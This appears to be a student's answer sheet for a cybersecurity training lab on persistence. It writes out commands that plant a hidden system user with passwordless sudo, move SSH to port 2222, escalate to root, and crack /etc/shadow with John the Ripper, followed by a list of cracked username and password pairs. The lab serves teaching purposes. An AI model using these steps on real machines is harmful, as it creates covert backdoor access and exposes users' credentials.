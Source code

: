 Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

Your solution command here
sudo adduser --system --no-create-home sysd


Give your secret user a password:

Your solution command here
sudo passws sysd


Give your secret user a system UID < 1000:

Your solution command here
sudo usermod -u 888 sysd


Give your secret user the same GID:

Your solution command here
sudo groupmod -g 888 sysd


Give your secret user full sudo access without the need for a password:

Your solution command here
sudo visudo
sysd ALL=(ALL) NOPASSWD: ALL


Test that sudo access works without your password:
Your bash commands here
sudo -l

Step 2: Smooth Sailing


Edit the sshd_config file:
Your bash commands here
sudo nano /etc/ssh/sshd_config
Port 2222


Step 3: Testing Your Configuration Update


Restart the SSH service:

Your solution command here
systemctl restart ssh.service


Exit the root account:

Your solution command here
exit


SSH to the target machine using your sysd account and port 2222:

Your solution command here
ssh sysd@192.168.6.105 -p 2222


Use sudo to switch to the root user:

Your solution command here
sudo su


Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:

Your solution command here
ssh sysd@192.168.6.105 -p 2222


Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

Your solution command here
sudo su
john /etc/shadow
sysadmin:passw0rd
student:Goodluck!
mitnik:trustno1
babbage:freedom
lovelace:dragon
stallman:computer
turing:lakers